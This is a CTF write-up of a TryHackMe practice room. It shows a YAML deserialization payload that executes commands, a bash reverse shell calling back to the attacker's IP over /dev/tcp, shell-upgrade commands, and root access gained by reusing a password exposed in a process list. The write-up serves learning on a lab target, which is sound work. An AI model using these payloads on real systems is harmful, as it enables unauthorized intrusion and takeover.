










### Beach Bar CTF Writeup
https://tryhackme.com/room/hh-beachbar-d849f7f7

### Room Overview
The room only provided a http server with the target computers IP.

### Begin CTF
I started by doing a deep nmap scan of the target IP provided by the CTF room:

`nmap -sV -sC -p- -T4 [target_port]` 
- -sV - does additional scanning to find service versions
-  -sC - after locating a service it runs extra scripts on it for additional enumeration
-  -p- - scans all ports instead of the most common ones like a default nmap scan does
-  -T4 - does an aggresive / fast scan 

Only ssh and a http server were running which i already knew as the server was provided by the CTF, and CTF's typically have SSH.

So after visiting the site in firefox the first thing i checked was the source code and i found an interesting developer comment that exposed some login credentials:

After logging in as dj i am greeted with this page:

Theres an import option that takes you to a new page. It that allows you to enter text in YAML format for it to be queued in the dj’s set, i suspect ill have to use xss (cross-site scripting) here.

The export option downloads a "queued songs" file with some random songs in YAML format.

I entered the "Queued songs" file into the YAML input text box and i noticed the output was in python in the “loaded playlist” section:

So after trying for a little to do some simple xss in python and php, nothing worked. After some looking around i found out about python deserialization. Python Deserialization is the process of turning data into a python object, however if the deserializer is improperly configured it will allow for python commands to be executed during deserialization. like this: `!!python/object/apply:os.system ["id"]`

This command executes the `id` console command, as you can see after entering this command i get the output of 0: 

Which means the code was successfully interpreted by python as a command and not as just a string of text.

After this all i needed to do was set up a listener in a terminal with this command: `rlwrap nc -lvnp 4444` - this is a netcat command that is wrapped in rlwrap which adds readline features like arrow key support and history to programs that dont support them by default like netcat (nc)

netcat flags:
- -l - listen for an incoming connection
- -v - enables verbose output
- -n - disables dns lookup
- -p - port number (4444)

Then i entered this in the load playlist section:

`!!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/[local_ip]/4444 0>&1'"]` 

- !!python/object/apply: - executes a python command via the deserializer
- os.system[] - tells python this is a system command (console command)
- bash -c - starts a bash session and tells it to execute the following  command
- bash -i - starts an interactive bash shell
- >& /dev/tcp/[local_ip]/4444 - redirects the stdout (standard output) and stderr (standard error) from the target computer to the tcp connection on the local computer on port 4444
- 0>&1 - redirects the stdin (standard input, represented by "0" ) to the same location as the stdout (shown as 1)

After i entered that command, it connected back to my netcat listener and i got access to the bartender account:

I used the command `find / -user bartender 2>/dev/null` - this command finds all files own by the bartender user and sends all the errors (2) to /dev/null

I ended up finding a file named `user.txt` in the bartenders home directory which contained the flag in it:

My next goal is to find a way to privilege escalate to root and find the root flag.

I decided the default reverse shell was getting a bit annoying since i didnt have proper TTY, so i quickly upgraded using these commands:

python3 -c 'import pty; pty.spawn("/bin/bash")'
# Press Ctrl+Z to background the reverse shell session

stty raw -echo (type this in the original shell)
fg (foreground back to the reverse shell)
export TERM=xterm (type this in the reverse shell session again)
stty rows 39 columns 187
export TERM=xterm

After i did this the terminal session allowed for things like arrow key usage and other functionality which is very helpful.

After this i checked ps aux to see if any processes were running that could give me a clue and i found this one:

Its a process being run by root that is executed with python and has a “--stream-pass SunsetSpritz2024!” argument that could be useful.

After some looking through the python code and some of the webapps files i found nothing and ended up trying the password on the root user to check for credential reuse (i should’ve checked for this first) and it was successful:

I got the final flag and completed the room.
